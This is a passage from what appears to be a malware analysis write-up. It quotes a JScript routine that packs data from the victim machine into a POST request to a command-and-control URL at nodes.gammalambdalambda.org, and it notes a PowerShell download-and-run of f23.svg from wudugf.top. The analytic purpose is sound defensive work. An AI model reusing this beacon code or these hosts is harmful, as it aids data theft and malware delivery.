 ```JS
req.push('501');
req.push(_tempFilePathExec);
req.push(runFileResult);
req.push(initExeption);
req.push(runFileExeption);
request(req);
function request(requestdata,retbinary){
	try{
		var payload='';
		for(var i=0; i<requestdata.length; i++){
			var param,val;
			if(requestdata[i][0]){
				param=requestdata[i][0];
				val=requestdata[i][1];
			}
			else{
				param=i;
				val=requestdata[i];
			}
			payload += param + '=' + encodeURIComponent(val) + '&';
		}
		var res='';
		var xmlhttp=new ActiveXObject('MSXML2.XMLHTTP');
		xmlhttp.open('POST','https://ianxu.nodes.gammalambdalambda.org/gotoCheckout',false);
		xmlhttp.setRequestHeader('Upgrade-Insecure-Requests','1');
		xmlhttp.send(payload);
		if(retbinary){
			res=xmlhttp.responseBody;
		}
		else{
			res=xmlhttp.responseText;
		}
		return res;
	}
	catch(e){}
}
```

Similar to the previous script, this will gather some info about the victim machine, format the results, and send a response back to the C2.

The big difference between the two is the use of PowerShell to download and execute a file called `f23.svg`. 

At this point, the `*.nodes.gammalambdalambda.org` did not respond, and even if it did, there is no functionality in place to execute the response.

I will now pivot my focus to the file which has been downloaded and executed via PowerShell.
## PowerShell - wudugf.top/f23.svg
At first glance, the PowerShell is rather simple, there are two very large base64 encoded strings which are passed to a "decode" function. 
